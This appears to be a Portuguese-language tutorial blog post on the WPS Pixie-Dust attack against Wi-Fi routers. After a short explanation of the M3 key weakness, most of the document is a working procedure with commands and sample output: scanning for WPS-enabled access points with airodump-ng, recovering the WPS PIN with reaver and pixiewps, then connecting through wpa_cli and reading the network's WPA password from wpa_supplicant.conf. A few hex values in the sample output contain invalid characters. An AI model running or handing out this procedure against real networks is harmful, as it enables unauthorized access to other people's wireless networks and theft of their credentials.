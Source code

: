 ```yaml
---
title: 'pixie-dust attack'
date: '2020-01-02'
---
```



## pegando psk com pixie-dust attack 


O pixie dust attack consiste em realizar a quebra do WPS de maneira offline.O método offline 
envolve tentar apenas um PIN aleatório e coletar algumas informações durante o processo. Esses 
dados podem ser usados posteriormente para tentar o ataque pixie-dust.
A vulnerabilidade está na mensagem M3: no corpo da mensagem é utilizado
duas chaves AES de 128 bits randômicas (E-S1 e E-S2) para encriptação da
primeira e da segunda metade do PIN, respectivamente. Se as duas chaves
forem descobertas, é possível recuperar o número PIN com um ataque offline
em menos de um segundo, em vez de “chutar” o número PIN no roteador, processo que pode levar 
de 8 a 12 horas (mais informações sobre o brute-force offline aqui http://archive.hack.lu/2014/Hacklu2014_offline_bruteforce_attack_on_wps.pdf)


## Parte pratica
##### Com a interface em modo monitor você pode "sniffar" as redes em volta para identificar um alvo em potêncial com o airodump-ng adicionando a flag --wps dessa forma:
```
$ sudo airodump-ng --wps <interface>
```
> Repare na coluna WPS 

```
 CH  9 ][ Elapsed: 1 min ][ 2007-04-26 17:41 ]
                                                                                                            
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER  WPS  AUTH  ESSID
                                                                                                             
 00:09:5B:1C:AA:1D   11  16       10        0    0  11  54.  OPN          2.0           NETGEAR                         
 00:14:6C:7A:41:81   34 100       57       14    1   9  11e  WEP  WEP     1.0           bigbear 
 00:14:6C:7E:40:80   32 100      752       73    2   9  54   WPA  TKIP    2.0    PSK    teddy                             
                                                                                                            
 BSSID              STATION            PWR   Rate   Lost  Packets  Notes  Probes
                                
 00:14:6C:7A:41:81  00:0F:B5:32:31:31   51   36-24    2       14
 (not associated)   00:14:A4:3F:8D:13   19    0-0     0        4           mossy 
 00:14:6C:7A:41:81  00:0C:41:52:D1:D1   -1   36-36    0        5
 00:14:6C:7E:40:80  00:0F:B5:FD:FB:C2   35   54-54    0       99           teddy

```

##### Os APs com o WPS ativado apareceram nessa coluna com a versão do wps que o AP possui. Pode acontecer de alguns APs ficarem com um espaço vazio nessa coluna, isso é porque o wps está desativado.

##### Depois de ter identificado seu alvo, a ferramenta utilizada para fazer o ataque ao WPS será a Reaver (link no final da pg) com o seguinte comando:
  
```
sudo reaver -i <interface> -c <channel> -b <mac do ap> -vv -K 1
(precisa da flag -vv)
```
##### O resultado pode variar um pouco porque depende muito do roteador que está sendo atacado. Essa falha é relativa ao firmware do roteador, não sendo todos os roteadores vulneráveis. Você pode ver alguns exemplos de saida aqui -> https://forums.kali.org/showthread.php?25123-Reaver-modfication-for-Pixie-Dust-Attack ou pesquisar por conta própria e ver vários resultados diferentes que as pessoas conseguem por ai ... mas saída que deu certo pra mim foi semelhante a essa:

```
$ sudo reaver -i <interface> -c <channel> -b 01:D0:30:4A:49:45 -vv -K 1

Reaver v1.6.5 WiFi Protected Setup Attack Tool
Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>

[+] Switching wlan0 to channel 2
[+] Waiting for beacon from 01:D0:30:4A:49:45
[+] Received beacon from 01:D0:30:4A:49:45
[+] Vendor: RalinkTe
[+] Trying pin "12345670"
[+] Sending authentication request
[!] Found packet with bad FCS, skipping...
[+] Sending association request
[+] Associated with 01:D0:30:4A:49:45 (ESSID: "nome qualquer")
[+] Sending EAPOL START request
[+] Received identity request
[+] Sending identity response
[+] Received M1 message
[+] Sending M2 message
executing pixiewps -e 
313ff74331338ed2d66cc580c997ee805df43626d3dfda23328688e110e5676b7aa9d36640956c1d5b712835a0b07a7ec2ac2363e44336232cf5c11517096bad3c95bc2db3f537c41cf0a80036e
5b680e3e1e130a9303c14f77abca481e4911f590148387c6dc2839e2820a028f9d9c0767d25216c01260c011259cbd30c846ada8da47e5dc9d3dbe99953d9f8ef547d42b3152f581e790aae608c
6b112aac298cb121a60b6ec8849f23497234685b05b53a632526765dbf12642ed0ee8213fb -s c6987c052c458512a2972cfacc923e4c61c9502723676b9493d1b783062ecg16 -z 
72e3a7f04f5eb1cdd4602fb15443099f82d56a02ccad15774ea873c84b4b1b0b -a 3c63e889ae1d26a4441e2f9fbf7b673ff4aee85889383d88dc3707253d155d6b -n 
db396a9e4066be20697a0e236d3aaef7 -r 
29722c42863986dd84a965db99fca766e49c04e58c70f3cc0526b1d6efa0798d3a8023d533f87ea70g6551e50274d40e6c19dd6b3842b496e8c5fc2efc62dd67dc0ad5276aa21321fb68a70bbe6
9d6d6f27e5fb61ff29411a35c9d8e7084d8920cba3656a628ed5e7559ce53804ed85ea840221a73e8fb277c1ff86be187fb4008608c1f086637b045078cfa4c5dfe797d10d866322331866a6cf8
1651af877ad5f074be7c94a5db570d9c467dbf6aa048b48e16bfe98a265657a764b4d09fa7a

 Pixiewps 1.4

 [?] Mode:     1 (RT/MT/CL)
 [*] Seed N1:  0x2e6f2d71
 [*] Seed ES1: 0x7f3d488f
 [*] Seed ES2: 0x4104ca5d
 [*] PSK1:     e7868366f236b343dc0777209b87a214
 [*] PSK2:     95a24c483176fadddc4469a305e893b2
 [*] ES1:      3dd1a7d64b65cbe1bd80ab4359css07e
 [*] ES2:      5502dec86e7ae960a247f6b8aa9c513d
 [+] WPS pin:  18630248   <==== PIN AQUI

 [*] Time taken: 0 s 294 ms
```
(você pode executar o comando "pixiewps" sugerido pela própria ferramenta, que trará o mesmo resultado do pin recuperado)

##### Dependendo do resultado do ataque, o reaver consegue recuperar apenas o PIN do WPS como mostrado acima. Nos meus testes foi esse resultado que consegui, então a idéia é essa: recuperar o PIN com o ataque offline pixie-dust, depois se conectar ao AP com o pin recuperado usando o procedimento abaixo, para então pegar o psk

1. ***Crie o arquivo wpa_supplicant.conf em /etc/ e nesse arquivo vai as seguintes linhas***:

> ctrl_interface=/var/run/wpa_supplicant
>  
> ctrl_interface_group=0
>  
> update_config=1
  

2. ***Inicie o wpa_supplicant, com o arquivo de configuração /etc/wpa_supplicant.conf***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
```

  
3. ***Em outro terminal inicie o wpa_cli para realizar a conexão ao ponto de acesso por meio do número PIN***:
```  
$ wpa_cli wps_reg 74:EA:3A:E1:E8:66 02283470
                     <mac do ap>    <pin wps>
```
  
  
4. ***O wpa_supplicant fará a conexão ao ponto de acesso. No terminal em que o wpa_supplicant foi iniciado
é retornado uma mensagem de que a conexão foi bem-sucedida***:
```  
$ wpa_supplicant -Dwext -iwlan0 -c /etc/wpa_supplicant.conf
ioctl[SIOCSIWENCODEEXT]: Invalid argument
ioctl[SIOCSIWENCODEEXT]: Invalid argument
wlan0: Failed to initiate AP scan
wlan0: Trying to associate with 74:ea:3a:e1:e8:66 (SSID='TP-LINK_E1E866' freq=2462 MHz)
wlan0: Associated with 74:ea:3a:e1:e8:66
wlan0: WPA: Key negotiation completed with 74:ea:3a:e1:e8:66 [PTK=CCMP GTK=CCMP]
wlan0: CTRL-EVENT-CONNECTED - Connection to 74:ea:3a:e1:e8:66
completed (auth) [id=1 id_str=]
```
  
  
5. ***Visualize o conteúdo do arquivo /etc/wpa_supplicant.conf com a senha
wireless da rede***:
```
$ cat /etc/wpa_supplicant.conf
network={
ssid="TP-LINK_E1E866"
bssid=74:ea:3a:e1:e8:66
psk="senha123"
proto=RSN
key_mgmt=WPA-PSK
pairwise=CCMP
auth_alg=OPEN
}
```

referencia:
- https://novatec.com.br/livros/pentest-redes-sem-fio/
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Access#WPS_PIN_recovery
- https://en.wikipedia.org/wiki/Wi-Fi_Protected_Setup
- https://github.com/wiire-a/pixiewps
- https://github.com/t6x/reaver-wps-fork-t6x
- https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-(Offline-WPS-Attack)
